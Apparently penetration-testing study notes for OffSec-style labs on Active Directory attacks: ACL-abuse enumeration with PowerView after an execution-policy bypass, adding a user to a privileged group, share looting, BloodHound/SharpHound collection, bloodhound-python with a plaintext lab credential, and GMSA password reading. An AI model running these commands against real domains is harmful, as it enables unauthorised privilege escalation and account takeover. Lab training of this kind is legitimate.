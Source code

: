 WriteOwner: Change ownership of the object  
WriteDACL: Edit ACE's applied to object  
AllExtendedRights: Change password, reset password, etc.  
ForceChangePassword: Password change for object  
Self (Self-Membership): Add ourselves to for example a group  
```
powershell -ep bypass
Import-module .\PowerView.ps1

Find SIDs which has GenericAll Permission on "Management Department" Group:
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find interesting domain object permissions whose permissions are GenericAll:
Find-InterestingDomainAcl | ? {$_.ActiveDirectoryRights -eq "GenericAll"}

Conver SIDs to UserAccount names:
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
```
When Stephanie has GenericAll permissions on "Management Department" group, you can add her to Management Department group
```
net group "Management Department" stephanie /add /domain
```
#### Enumerate Domain Shares
```
powershell -ep bypass
Import-module .\PowerView.ps1
Find-DomainShare
ls \\dc1.corp.com\"Important Files"\
type \\dc1.corp.com\"Important Files"\proof.txt
```
#### BloodHound
Initiation
```
Compromised machine: Import-Module .\SharpHound.ps1
Compromised machine: Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\

sudo neo4j stop
sudo neo4j start
kali: bloodhound
kali: username:neo4j, pass:kali
kali: drag zip file into bloodhound
```
Compatible Combination:
```
neo4j 4.4.26
bloodhound 4.3.1
SharpHound.ps1 1.1.1
```
#### Bloodhound-python
This will extract all json files if you have credential but no shell
```
bloodhound-python --dns-tcp -ns $IP -d hutch.offsec -u 'fmcsorley' -p 'CrabSharkJellyfish192' -c all
```
#### Abusing Read GMSAP Password
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```